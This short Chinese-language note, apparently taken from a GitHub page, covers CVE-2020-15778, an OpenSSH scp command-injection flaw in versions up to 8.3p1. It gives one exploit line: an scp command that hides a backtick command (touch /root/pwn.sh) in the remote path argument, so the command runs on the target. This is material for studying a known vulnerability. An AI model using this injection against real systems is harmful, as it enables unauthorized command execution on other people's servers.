 CVE-2020-15778 Openssh命令注入漏洞
==================================

影響版本：
----------

Openssh\<=8.3p1

利用方法：
----------

`` scp / hello.txt root@192.168.1.113:'`touch /root/pwn.sh`/root' ``
 傳輸hello.txt到/root目錄下，並且執行命令 `touch /root/pwn.sh`